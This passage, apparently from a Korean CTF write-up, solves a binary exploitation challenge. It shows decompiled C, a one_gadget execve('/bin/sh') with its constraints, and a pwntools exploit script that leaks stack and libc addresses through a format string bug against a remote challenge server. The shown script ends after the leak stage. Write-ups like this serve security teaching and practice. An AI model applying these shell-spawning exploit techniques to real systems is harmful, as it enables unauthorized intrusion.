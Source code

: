 ```C
      {
        result = (void *)j;
        *((_BYTE *)a2 + 64 * (__int64)i + j) = *(_WORD *)(*a1 + ((__int64)i << 7) + 2LL * j);
      }
    }
  }
  return result;
}
```

`k`라는 바이트를 출력하고 싶으면 `k + b'\x80'`을 입력해주면 된다. `FSB`가 무제한이므로 릭은 얼마든지 할 수 있다.

원가젯은

```
0xebd38 execve("/bin/sh", rbp-0x50, [rbp-0x70])
constraints:
  address rbp-0x48 is writable
  r12 == NULL || {"/bin/sh", r12, NULL} is a valid argv
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL || [rbp-0x70] is a valid envp
```

이걸 쓰고, r12를 0으로 만들어줬다. `FSB`로 `printf` 내부 스택 프레임의 `pop r12`와 ret 부분에 덮어줘서 해결했다. [Merry Christmas](https://shielder.tistory.com/4)문제제에서 사용한 기법이다.

### exploit.py

```python
from pwn import *

context.terminal = ['tmux', 'splitw', '-h']

def rp(payload : bytes):
    p.sendlineafter(b'> ', b'1')
    for i in range(len(payload)):
        p.send(payload[i:i+1] + b'\x80')
    for i in range(len(payload), 64 * 64):
        p.send(b'\x00\x60')

def mc(x : int, y : int):
    p.sendlineafter(b'> ', b'2')
    p.sendlineafter(b'x > ', str(x).encode())
    p.sendlineafter(b'y > ', str(x).encode())

def pp():
    p.sendlineafter(b'> ', b'3')
    return p.recvline()[:-1]

#p = process('./prob')
p = remote('43.203.137.197', 54321)
l = ELF('./libc.so.6')

num = 6 + (0x7ffc25f12bc0 - 0x7ffc25f11b80) // 8
payload = f'%{num}$p%{num+9}$p'
rp(payload.encode())

msg = pp()
mainrbp = int(msg[:14].decode(), 16)
l.address = int(msg[14:28].decode(), 16) - (0x7fea359d0d90 - 0x7fea359a7000)
print(hex(mainrbp))
print(hex(l.address))

# mainrbp = 0x7ffd93f7aff0
# r12 = 0x7ffd93f79e70
# ret = 0x7ffd93f79e88

```